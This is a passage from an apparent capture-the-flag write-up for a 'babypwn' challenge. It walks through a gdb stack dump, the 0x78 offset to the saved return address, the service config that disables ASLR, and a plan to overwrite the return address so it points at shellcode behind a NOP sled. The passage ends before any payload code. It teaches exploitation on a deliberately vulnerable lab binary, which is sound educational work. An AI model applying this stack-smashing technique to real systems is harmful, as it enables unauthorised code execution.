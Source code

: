 ```gdb
0x00007fffffffe720│+0x0000: 0x1be3e93037b0d224	 ← $rsp
0x00007fffffffe728│+0x0008: 0x65eb4ac4ed908384
0x00007fffffffe730│+0x0010: 0x1be3e90041414141 ("AAAA"?)	 ← $rax, $rbp
0x00007fffffffe738│+0x0018: 0x65eb4ac4ed908384
0x00007fffffffe740│+0x0020: 0x00000000000000f8
0x00007fffffffe748│+0x0028: 0x0000000000000000
0x00007fffffffe750│+0x0030: 0x0000000000000000
0x00007fffffffe758│+0x0038: 0x0000000000000000
0x00007fffffffe760│+0x0040: 0x0000000000000000
0x00007fffffffe768│+0x0048: 0x0000000000000000
0x00007fffffffe770│+0x0050: 0x0000000000000000
0x00007fffffffe778│+0x0058: 0x0000000000000000
0x00007fffffffe780│+0x0060: 0x0000000000000000
0x00007fffffffe788│+0x0068: 0x0000000000000000
0x00007fffffffe790│+0x0070: 0x0000000000000003
0x00007fffffffe798│+0x0078: 0x0000000000000003
0x00007fffffffe7a0│+0x0080: 0x00007fffffffe7b0  →  "CSR{this-is-not-the-real-flag}\n"
0x00007fffffffe7a8│+0x0088: 0x0000555555555176  →  <main+150> test eax, eax
```

Line `+0x0088` is the return address (the `<main+150> test eax, eax` is also a give away) and it is exactly `0x78` from line `+0x0010` (see our `AAAA`) as expected.

So we should be able to write an even number of `A` (e.g. 6), followed by a couple of nulls to terminate the string, followed by our payload plus padding to line `+0x0088` where we would put in the address of our payload `0x00007fffffffe738`.  And if you're wondering why this does not change, well, it's because ASLR is disabled in their service startup script `babypwn_svc`:

```
service babypwn
{
    type         = UNLISTED
    protocol     = tcp
    socket_type  = stream
    port         = 6666
    server       = /usr/bin/setarch
    server_args  = x86_64 --addr-no-randomize /home/ctf/babypwn
    user         = ctf
    wait         = no
    env          = PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
}
```

`setarch $(uname -m) --addr-no-randomize` will execute the next parameter passed to it without ASLR.

Traditionally, we'd setup a NOP sled just in case the stack is a little off, even with ASLR disabled, its possible for other factors to have the stack not exactly where expected (however for this challenge it appears to be as predictable as it _gets_).

Before doing the math and building the longest possible sled we need to consider the following just before the return is called:

```assembly
001014af 48 83 c4 78     ADD        RSP,0x78
001014b3 0f b6 c0        MOVZX      EAX,AL
001014b6 5d              POP        RBP
001014b7 41 5c           POP        R12
``` 
